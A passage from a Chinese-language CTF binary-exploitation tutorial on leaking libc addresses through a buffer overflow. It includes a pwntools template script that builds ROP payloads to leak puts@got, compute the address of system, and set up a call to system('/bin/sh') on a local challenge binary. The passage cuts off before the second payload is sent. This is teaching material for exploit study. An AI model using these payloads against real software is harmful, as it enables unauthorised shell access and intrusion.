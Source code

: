 这样这个 payload1 被溢出后，当漏洞函数结束，EIP 指向 write_plt，去执行，会把此时的栈顶当做下一条返回指令 (vuln)，下面三个栈元素作为参数，因此完成泄露并返回到漏洞函数重新执行。

PS：如果读者要自己编写 leak，建议别直接照搬网上的代码，请自己理解清楚后选择**合适的输出函数**，按照合适的**函数传参**，**堆栈平衡规则**去编写！

PS：并且高度重视需要处理好**输入输出的缓冲区**，使用 p.recvuntil 将不必要的输出读掉（尤其是 \n），一面影响 p.recv(4) 读取泄露的 address 内容！

**小技巧**：你可以将 leak 单独拿出来，做一个 POC 来测试是否泄露出你指定的地址内容并验证

##### 双 Payload （推荐）

这里给出从解答 classic 题目提炼出的 x64 puts 泄露利用 ROP 绕过 NX 的模板 POC，以便以后快速构造利用脚本。

```python
# encoding:utf-8
from pwn import *
"""
第一次溢出，获取 put 函数在内存中地址
通过 put 在内存中地址与 put_libc，计算 system 函数真实内存地址
第二次执行 main 函数并溢出，写入 '/bin/sh' 并跳转到 systeam 函数地址并传入与 '/bin/sh' 地址参数
"""
# 参考了：http://www.binarysec.top/post/2018-01-25-12.html

# libc.so 文件作用是告诉你相对偏移！
libc = ELF('./libc-2.23.so')
put_libc = libc.symbols['puts']
# print "%#x" % put_libc # 0x6f690   就是 puts 在 libc 中的偏移！
system_libc = libc.symbols['system']
# print "%#x" % system_libc # 0x6f690  

puts_plt = 0x400520 
vuln_addr = 0x4006A9  # 这里填写漏洞函数里面汇编第一个地址
poprdi_ret = 0x400753 # pop rdi ; ret

p = process('./classic', env = {'LD_PRELOAD': './libc-2.23.so'})

address = 0x601018 # 需要泄露的地址，是 plt 这个地址写的 jmp cs:off_601018
payload1 = 'a'*(48+24)+ p64(poprdi_ret) + p64(address) + p64(puts_plt) + p64(vuln_addr)
p.sendline(payload1) # 自动添加 \n
print p.recvuntil('Have a nice pwn!!\n')
s = p.recvuntil("\n")
data = s[:8] # 遇到 0a 很烦，puts 也会终止
while len(data) < 8:
    another_address = address + len(data)
    payload1 = 'a'*(48+24)+ p64(poprdi_ret) + p64(another_address) + p64(puts_plt) + p64(vuln_addr)
    p.sendline(payload1) # 自动添加 \n
    print p.recvuntil('Have a nice pwn!!\n')
    s = p.recvuntil("\n")
    data += s[:8]
# puts 会把 \0 忽略转换为 0a，并终止，我日

#输出一下泄露的内容，puts@got 地址是此处倒序
print "%#x => %s" % (address, (data or '').encode('hex')) 
# 泄露出地址，然后进行攻击
# 由于 libc 的延迟绑定机制，我们需要选择已经执行过的函数来进行泄露
# libc.so 需要和二进制文件在同一个目录吗？

data = data.replace("\n", "\0") # 把 puts 替换的 0a 全部换成 00，尤其是 上面 print 输出的末尾那些 0a 必须换！
put_addr = u64(data) # 8 字节的字符转换为 " 地址格式 "
print "put_addr: ", hex(put_addr)
system_addr = put_addr - put_libc + system_libc
bss_addr = 0x0601060  # IDA segment ，选择 .bss 的 start 地址

gets_plt = 0x400560
payload2 = 'a'*(48+24) + p64(poprdi_ret) + p64(bss_addr) + p64(gets_plt) + p64(poprdi_ret) + p64(bss_addr) + p64(system_addr) + p64(vuln_addr)
```